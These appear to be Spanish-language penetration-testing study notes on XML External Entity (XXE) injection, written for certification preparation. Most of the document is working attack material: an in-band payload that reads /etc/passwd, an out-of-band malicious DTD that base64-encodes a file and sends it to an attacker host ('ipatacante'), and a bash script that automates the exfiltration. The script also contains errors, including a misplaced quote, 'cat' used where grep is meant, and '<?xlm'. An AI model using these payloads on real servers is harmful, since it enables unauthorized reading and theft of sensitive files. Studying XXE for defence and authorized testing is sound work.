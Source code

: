 ## XML External Entity Injection (XXE)
### Concepto ENTIDAD

Con XXE, conseguimos ver el contenido de ficheros sensibles que tiene una máquina víctima a través de peticiones web XML.

Primero debemos conocer que es una entidad. Cuando se declara una ENTITY en XML, estamos dándole un nombre y un valor, que luego se puede utilizar en cualquier campo de datos XML como si fuera una variable. 

Es decir en ENTITY se da el valor, y luego se hace la llamada desde donde queramos y las veces que queramos. Un ejemplo de código:

```
<!ENTITY nom "glmbx">
<root>
	<name>
		&nom; <!-- Aquí estamos haciendo referencia a "glmbx"-->
	</name

	<apellidos>
	Herrera Galamba
	</apellidos>
</root>
```

## Prueba de concepto

Tenemos un formulario de registro, donde introducimos datos y estos se envian al servidor. En este caso, si analizamos con el repeater de burpsuite nos encontraremos que en el output nos devuelve el contenido de uno de los campos que introducimos en el formulario.  

Este campo nos interesa ya que será el que aprovechemos para la inyección. En este  caso es el campo  ```<email></email> ``` 

Declaramos una entidad del tipo **file** en la que le diremos que fichero queremos leer: 
```
<!DOCTYPE foo [<!ENTITY myfile SYSTEM "file:///etc/passwd">]>
<root>
	<name>test</name>
	<tel>1235678</tel>
	<email>&myfile;</email> <!--Aqui hacemos referencia a la entidad, que a su vez está recogiendo los datos del fichero etc/passwd -->
	<password>123235</password>

</root>
```
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/xxe1.png">

## XXE Out of band

Este es el tipo de XXE a ciegas, en el que no vemos el output del ataque. Lo que queremos es que el output nos lo envíe por una petición web a un servidor montado en la maquina atacante.

### Definicion del fichero .DTD
Supongamos que queremos ver el contenido del fichero /etc/passwd: 

"malicious.dtd"
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ipatacante/?file=%file;'>">
%eval;
%exfil;

```

### Realizando la petición

1º Nos montamos un servidor web en la ruta donde tengamos el malicious.dtd
```
python3 -m http.server 80
```

2º Con burpsuite lanzamos la petición:
debajo de la línea ```<?xml version=1.0...>```
definimos:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://ipatacante/malicious.dtd"> %xxe;]>
```

y lanzamos la petición. Deberiamos recibir la petición en el servidor web, con el contenido del fichero codificado en base64.

# Extra

Creando un script para automatizar esta tarea.

```
# El usuario por pantalla pide que fichero quiere leer
echo -ne "\n[+] introduce el fichero que quieres leer: && read -r myfilename"

# definiendo en dtd
malicious_dtd="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$myfilename\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://ipatacante/?file=%file;'>\">
%eval;
%exfil;"""

echo $malicious_dtd > malicious.dtd

# montando el servidor web y las peticiones iran al fichero response
python3 -m http.server 80 &>response &
PID=$!

sleep 1

# Automatizar la petición web
curl -s -X POST "http://direccionweb_victima_donde_se_hace_la_peticion" -d 
"Con burpsuite en RAW, ponemos todo el codigo de la peticion que puede ser algo asi: <?xlm version="1.0"...><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://ipatacante/malicious.dtd"> %xxe;]> ... y el resto del contenido" &>/dev/null


kill -9 $PID
wait $PID 2>/dev/null

# Visualizando el contenido del fichero response
cat response -oP "/?file=\K[^.*\s]+" | base64 -d

rm -f response 2>/dev/null
